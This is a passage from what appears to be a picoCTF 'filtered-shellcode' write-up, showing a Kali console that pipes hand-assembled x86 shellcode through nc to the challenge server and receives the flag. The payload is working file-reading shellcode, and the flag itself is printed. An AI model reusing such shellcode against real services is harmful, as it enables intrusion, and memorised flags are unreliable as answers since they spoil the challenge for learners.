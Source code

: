 ```assembly
int    0x80 
```

Let's try it:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/filtered-shellcode]
└─$ printf "\x31\xC9\xF7\xE1\x51\x90\x31\xC0\x31\xDB\xB0\x11\xB3\x03\xF7\xE3\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x11\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x7F\xB3\x17\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\x31\xDB\xB0\x2F\xF7\xE0\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x2B\xB3\x03\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x13\xF7\xE3\xB3\x05\xF7\xE3\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\xB0\x05\x89\xE3\xCD\x80\x93\x90\x91\x90\xB0\x03\x31\xD2\x50\x90\x31\xC0\x31\xD2\xB2\x40\xB0\x40\xF7\xE2\x50\x90\x5A\x90\x31\xC0\xB0\x01\x29\xC2\x58\x90\x42\x90\xCD\x80\x92\x90\x31\xC0\xB0\x04\xB3\x01\xCD\x80\x93\x90\xCD\x80\n" | nc mercury.picoctf.net 16460
Give me code to run:
picoCTF{th4t_w4s_fun_f1ed6f7952ff4071}
```